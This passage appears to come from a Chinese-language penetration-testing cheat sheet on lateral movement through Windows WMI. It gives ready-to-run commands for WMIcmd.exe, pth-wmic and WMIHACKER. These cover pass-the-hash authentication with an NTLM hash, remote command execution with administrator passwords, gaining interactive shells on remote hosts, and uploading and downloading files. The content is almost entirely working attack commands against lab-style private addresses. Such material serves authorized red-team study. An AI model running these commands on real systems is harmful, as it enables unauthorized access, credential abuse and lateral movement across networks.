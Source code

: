 
WMIcmd.exe在工作组上使用

    
    
    WMIcmd.exe -h IP -d domain -u domainadmin -p theirpassword -c "command"
    

WMIcmd.exe在域内使用

**pth-wmic**

> ***注意** ：此为kali内置工具，只能执行一些WMI命令，无法执行其他命令*
    
    
    ###查询指定主机的用户列表select Name from Win32_UserAccount###
    pth-wmic -U pig/Administrator%00000000000000000000000000000000:c56ade0c054ba703d9f56e302224bbb3 //192.168.8.181 "select Name from Win32_UserAccount"
    

使用pth-wmic来远程管理指定主机的WMI

**WMIHACKER**

> ***注意** ：wmihacker.vbs是在wmiexec.vbs基础上进行改进并优化的,新增了上传下载功能，其所需管理员权限。*
    
    
    ###命令执行后显示结果
    cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1
    ###命令执行后不显示任何结果
    cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo > c:\1.txt" 0
    ###获取交互式shell
    cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!"
    ###文件上传：将本地calc.exe复制到远程主机c:\calc.exe
    cscript wmihacker_0.6.vbs /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"
    ###文件下载：将远程主机calc.exe下载到本地c:\calc.exe
    cscript wmihacker_0.6.vbs /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe"
    
    
    
    #获取半交互式shell
    cscript.exe wmihacker.vbs /shell 192.168.8.179 Administrator "win@123"
    

工作组内获取半交互式shell

    
    
    #获取半交互式shell
    cscript.exe wmihacker.vbs /shell 10.10.0.10 win16 "win16"
    

域内获取半交互式shell

    
    
    #将本地calc.exe复制到远程主机c:\calc.exe
    cscript wmihacker_0.6.vbs /upload 192.168.8.179 administrator "win@123" "c:\windows\system32\calc.exe" "c:\calc"
    

工作组内进行文件上传
